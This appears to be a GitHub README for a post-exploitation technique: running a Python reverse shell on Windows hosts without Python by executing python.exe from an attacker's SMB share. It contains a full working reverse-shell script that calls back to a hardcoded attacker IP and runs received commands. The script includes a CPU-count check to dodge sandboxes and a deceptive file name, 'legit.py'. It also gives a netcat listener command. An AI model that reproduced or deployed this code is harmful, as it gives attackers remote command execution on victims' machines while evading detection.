 # Eazee-As-Py
## Execute Python Reverse Shells on Windows Hosts without Python Installed 😎

I spent this morning working out how I can execute Python on a Windows Host that doesnt have Python Installed.

There is no documentation I have found online on this particular technique so I am taking all the credit 💪🏼

Obviously using SMB shares for transferring files and running .exe is nothing new but this way we can load python into memory on a system that doesnt have Python installed. Also nothing touches disk. 

Essentially this is giving us more flexibility to carry out Post-Exploitation task if needed. For example see this on exposing an Internal HTTP Server using this technique with no SSH port forwarding - https://github.com/deeexcee-io/LOI-Bins#port-forward-example

Im assuming the possibilites are endless with this.

Not exactly ground breaking research just some abstract thinking whilst lying in bed at 1am. 🛌🏼

## EDIT

This random example has spawned more testing. see - https://github.com/deeexcee-io/LOI-Bins

## How to do it

* Have a Windows Attack Machine alongside Kali (you could do all this on windows btw, just install ncat https://nmap.org/download ) 🐱
* Download and install Python on Windows Attack Machine, ensure to tick add PYTHON to PATH on install 🐍
* Navigate to Install Folder - Mine is C:\Users\<USERNAME>\AppData\Local\Programs\Python\Python310
* Right click on Python310 Folder and Share it
* Go on advanced Sharng and give it a share name, I kept it as Python310
![image](https://user-images.githubusercontent.com/130473605/234895545-22794caf-0b53-4578-8d0e-c3452209c29f.png)
* Get a Windows Specific Python Reverse Shell, most of what I found on GitHub was the Client/Server.py files but they should be good or use this.
```python
import os
import socket
import subprocess


if os.cpu_count() <= 2:
    quit()

HOST = '192.168.0.169'
PORT = 4445

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))


while 1:
    try:
        s.send(str.encode(os.getcwd() + "> "))
        data = s.recv(1024).decode("UTF-8")
        data = data.strip('\n')
        if data == "quit": 
            break
        if data[:2] == "cd":
            os.chdir(data[3:])
        if len(data) > 0:
            proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE) 
            stdout_value = proc.stdout.read() + proc.stderr.read()
            output_str = str(stdout_value, "UTF-8")
            s.send(str.encode("\n" + output_str))
    except Exception as e:
        continue
    
s.close()
```

* Save it in the same Folder - I named it legit.py

![image](https://user-images.githubusercontent.com/130473605/234902955-91f4113a-85ca-41ec-a134-d76242612491.png)

* Setup nc to catch shell on Kali `nc -lvnp <port>`
* On Windows Host in CMD point to python.exe on remote share and pass it the reverse shell name also hosted on remote share

![image](https://user-images.githubusercontent.com/130473605/234904613-8f8f530f-1568-4ff1-b614-f1dd55423beb.png)

* Enjoy your Python Reverse Shell from a Windows Host that doesnt have Python installed

![image](https://user-images.githubusercontent.com/130473605/234906073-576c9241-4c1f-4296-8fd0-6b1e233baf92.png)




